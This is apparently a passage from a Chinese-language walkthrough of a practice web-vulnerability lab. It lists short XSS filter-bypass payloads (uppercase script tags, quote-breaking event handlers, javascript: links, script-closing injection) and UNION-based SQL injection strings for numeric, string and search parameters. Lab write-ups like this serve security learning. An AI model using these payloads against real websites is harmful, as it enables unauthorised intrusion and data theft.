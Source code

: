 点击右上角`tips`登录后台，触发payload，监听地址接收到请求

### XSS过滤

大写绕过

```js
<SCRIPT>alert(/1/)</SCRIPT>
```

### XSS之htmlspecialchars

htmlspecialchars默认是不对单引号进行转义的

```js
' onclick='alert(1)'>
```

### XSS之href输出

```js
javascript:alert(1)
```

### XSS之JS输出

会将输入值放到js源码中，闭合js语句，在页面中插入js语句

```js
'</script><script>alert(1)</script>
```

## SQL注入

### 数字型

```sql
id=1 union select 1,2&submit=%E6%9F%A5%E8%AF%A2
```

### 字符型

```js
?name=kobe' union select 1,2--+&submit=%E6%9F%A5%E8%AF%A2
```

### 搜索型

```js
?name=1' union select 1,2,3--+&submit=%E6%90%9C%E7%B4%A2
```

### xx型注入

输入z' sql语句报错

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''z'')' at line 1
```
